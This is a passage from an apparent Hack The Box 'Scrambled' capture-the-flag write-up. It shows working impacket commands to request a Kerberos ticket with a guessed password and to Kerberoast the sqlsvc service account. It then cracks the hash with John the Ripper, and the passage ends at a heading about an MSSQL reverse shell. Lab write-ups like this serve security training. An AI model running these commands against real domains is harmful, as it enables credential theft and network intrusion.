 Let's suppose that the ksimpson user has the same password as its username. To request a ticket we have to use `getTGT.py` impacket script. To use it we have to export it in our environment variable `KRB5CCNAME`.

```bash
$ getTGT.py scrm.local/ksimpson:ksimpson        
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in ksimpson.ccache

$ export KRB5CCNAME=ksimpson.ccache
```

## Kerberoasting attack

Our next step is to perform some basic checks like `Kerberoasting` on the user we've found. Kerberoasting can be performed to harvest `Ticket Granting Service` (TGS) tickets for services that run on behalf of user accounts in the AD. In AD every service has its own User Account. So, when we request a TGS, it is encrypted with the service password and we can crack it offline.

We will use `GetUserSPNs.py` impacket script here. We have to specify that we want to user Kerberos authentication with `-k`, `-no-pass` flags. Also, if something would be found here, we specify a `request` flag to get services hashes.

```bash
GetUserSPNs.py scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local -no-pass -request
```

![Kerberoasting attack](/assets/hackthebox/scrambled/kerberoasting.png)

We've got a `Kerberos 5, etype 23, TGS-REP` hash here. It is associated with the user `sqlsvc`, which is running `MSSQL` server. We can crack it with `JohnTheRipper` tool.

```bash
john --wordlist=~/tools/rockyou.txt sqlsvc_hash
```
![sqlsvc password](/assets/hackthebox/scrambled/sqlsvc_hash.png)

## Reverse shell with MSSQL

